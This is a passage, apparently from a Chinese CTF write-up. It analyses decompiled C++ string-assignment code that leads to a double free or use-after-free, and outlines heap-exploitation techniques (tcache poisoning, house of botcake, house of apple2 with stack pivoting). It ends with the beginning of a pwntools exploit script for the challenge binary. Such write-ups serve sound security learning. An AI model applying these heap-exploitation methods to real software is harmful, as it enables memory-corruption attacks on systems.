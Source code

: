 ```cpp
    if ( src_cap < dst_len )
    {
      dst_len_1 = *(_QWORD *)(dst + 8);
      v8 = std::string::_M_create(src_1, &dst_len_1);
      v9 = *(_BYTE **)src_1;
      src_ptr = (_BYTE *)v8;
      if ( src_cap_ptr != *(_QWORD *)src_1 )
        operator delete(v9);
      v10 = dst_len_1;
      *(_QWORD *)src_1 = src_ptr;
      *(_QWORD *)(src_1 + 16) = v10;
    }
    else if ( !dst_len )
    {
LABEL_6:
      *(_QWORD *)(src_1 + 8) = dst_len;
      src_ptr[dst_len] = 0;
      return v13 - __readfsqword(0x28u);
    }
    dst_charptr = *(_BYTE **)dst;
    if ( dst_len == 1 )
      *src_ptr = *dst_charptr;
    else
      memcpy(src_ptr, dst_charptr, dst_len);
    src_ptr = *(_BYTE **)src_1;
    goto LABEL_6;
  }
  return v13 - __readfsqword(0x28u);
}
```
这里的 dst 指的是新的 string，src 指的是原先 iterator 中 value 存的 string hhh    
可以看到如果新的 string len 大于 old string capacity ，就会 free 掉原先的 string 然后把新的 string 赋值过去，因为原先我们的 string 已经被 delete 过一次了，所以这里会有 double free
否则会直接把 new string 中的内容拷贝到 old string，然后在 new string 末尾补0，改 length 字段然后返回，因为 old string 已经被 delete 过一次了，这里再进行了写入，所以会有 UAF （之前一直感觉这样做不太合理，但是发现能省一次 new string 和一次 free 的开销所以也是合理的？）    
在 double free 的情况下，需要打 house of botcake，所以在两次 free 之间需要一次 free 相邻堆块 一次 malloc，这个很难构造    
在 UAF 的情况下就直接打 tcache poisoning 就行，简单了不只一点.....    
但是 UAF 的话，堆块大小不能是 0x100 不然会因为 string 双倍扩容的原理被临时变量申请出来，不能保证我们可以写入它，所以我们改成了 0xf0 大小的块     
UAF 到 tcache poisoning 的过程大 credit to k4ra5u 老师（特别是改 UAF 堆块大小这一步）~      
如果这一步一开始就打 UAF 的话，可能最后就做出来了（流泪），应该一开始就粗略看一下那个 string 的 operator= 的......    
## house of apple2 + stack pivoting   
它 cin 不了空格，所以之前备的板子不能用，临时改了板子但是最后没调出来，sad    
这个就是常规操作了，纯考调试能力，就不多说了hhh ~     
## exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
# context.terminal = ['tmux', 'splitw', '-h']
libc = ELF("./libc.so.6")
p=process("./fl")

# p = remote("127.0.0.1",49867)
def add(name):
    p.recvuntil("5. Exit\n")
    p.sendline("1")
    p.recvuntil("Name: ")
    p.sendline(name)

def message(name,message,is_remove=False):
    p.recvuntil("5. Exit\n")
    p.sendline("2")
```